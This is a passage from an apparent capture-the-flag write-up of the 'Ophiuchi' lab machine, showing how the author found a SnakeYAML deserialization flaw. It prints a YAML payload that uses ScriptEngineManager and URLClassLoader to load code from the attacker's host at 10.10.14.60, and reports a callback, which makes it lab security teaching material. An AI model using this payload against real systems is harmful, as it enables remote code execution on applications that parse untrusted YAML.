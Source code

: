 <img src="/assets/img/ChallengeVMs/Ophiuchi/img1.png"  style="width: 60%" />
</p>


I started off by doing some searches for YAML exploits and came across the following deserialization vulnerability: <https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858>.

> The vulnerabilities lies in the way the snakeyaml parses the yaml file. 
> So during a secure code review of java application if we encounter yaml.load function being used with user input directly being passed to the function, then the application can be vulnerable to deserilization vulnerability which can lead to remote code execution.

I started off by copying the basic exploit to ensure that this was the correct train of thought:

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.60/]
  ]]
]
```

Using the code block above, I ran the code and received a connection back to my host:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Ophiuchi/img2.png"  style="width: 80%" />
</p>

While the code was being exploited, the web application itself returned an error message stating: `Due to security reason this feature has been temporarily on hold. We will soon fix the issue!`. I continued reading the article and came across the following:
